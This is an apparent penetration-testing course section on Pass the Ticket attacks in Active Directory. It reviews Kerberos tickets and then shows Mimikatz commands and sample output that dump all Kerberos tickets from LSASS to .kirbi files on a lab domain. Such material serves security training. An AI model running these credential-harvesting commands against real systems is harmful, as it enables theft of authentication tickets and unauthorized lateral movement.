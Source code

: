 # Pass the Ticket (PtT) from Windows

Another method for moving laterally in an Active Directory environment is called a [Pass the Ticket (PtT) attack](https://attack.mitre.org/techniques/T1550/003/). In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash. We'll cover several ways to perform a PtT attack from Windows and Linux. In this section, we'll focus on Windows attacks, and in the following section, we'll cover attacks from Linux.

## Kerberos Protocol Refresher

The Kerberos authentication system is ticket-based. The central idea behind Kerberos is not to give an account password to every service you use. Instead, Kerberos keeps all tickets on your local system and presents each service only the specific ticket for that service, preventing a ticket from being used for another purpose.

* The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
* The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.

When a user requests a `TGT`, they must authenticate to the domain controller by encrypting the current timestamp with their password hash. Once the domain controller validates the user's identity (because the domain knows the user's password hash, meaning it can decrypt the timestamp), it sends the user a TGT for future requests. Once the user has their ticket, they do not have to prove who they are with their password.

If the user wants to connect to an MSSQL database, it will request a Ticket Granting Service (TGS) to The Key Distribution Center (KDC), presenting its Ticket Granting Ticket (TGT). Then it will give the TGS to the MSSQL database server for authentication.

It's recommended to take a look at the [Kerberos, DNS, LDAP, MSRPC](https://academy.hackthebox.com/module/74/section/701) section in the module [Introduction to Active Directory](https://academy.hackthebox.com/module/details/74) for a high-level overview of how this protocol works.

## Pass the Ticket (PtT) Attack

We need a valid Kerberos ticket to perform a `Pass the Ticket (PtT)`. It can be:

* Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
* Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.

Before we perform a `Pass the Ticket (PtT)` attack, let's see some methods to get a ticket using `Mimikatz` and `Rubeus`.

## Scenario

Let's imagine we are on a pentest, and we manage to phish a user and gain access to the user's computer. We found a way to obtain administrative privileges on this computer and are working with local administrator rights. Let's explore several ways we can manage to get access tickets on this computer and how we can create new tickets.

## Harvesting Kerberos Tickets from Windows

On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

### **Mimikatz - Export Tickets**

We can harvest all tickets from a system using the `Mimikatz` module `sekurlsa::tickets /export`. The result is a list of files with the extension `.kirbi`, which contain the tickets.

```cmd-session
c:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export

Authentication Id : 0 ; 329278 (00000000:0005063e)
Session           : Network from 0
User Name         : DC01$
Domain            : HTB
Logon Server      : (null)
Logon Time        : 7/12/2022 9:39:55 AM
SID               : S-1-5-18

         * Username : DC01$
         * Domain   : inlanefreight.htb
         * Password : (null)
         
        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 7/12/2022 9:39:55 AM ; 7/12/2022 7:39:54 PM ;
           Service Name (02) : LDAP ; DC01.inlanefreight.htb ; inlanefreight.htb ; @ inlanefreight.htb
           Target Name  (--) : @ inlanefreight.htb
           Client Name  (01) : DC01$ ; @ inlanefreight.htb
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             31cfa427a01e10f6e09492f2e8ddf7f74c79a5ef6b725569e19d614a35a69c07
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;5063e]-1-0-40a50000-DC01$@LDAP-DC01.inlanefreight.htb.kirbi !

        Group 2 - Ticket Granting Ticket

<SNIP>

mimikatz # exit
Bye!
c:\tools> dir *.kirbi

Directory: c:\tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----

<SNIP>

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi

<SNIP>
```

The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory. User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`.

{% hint style="info" %}
Note: If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.
{% endhint %}

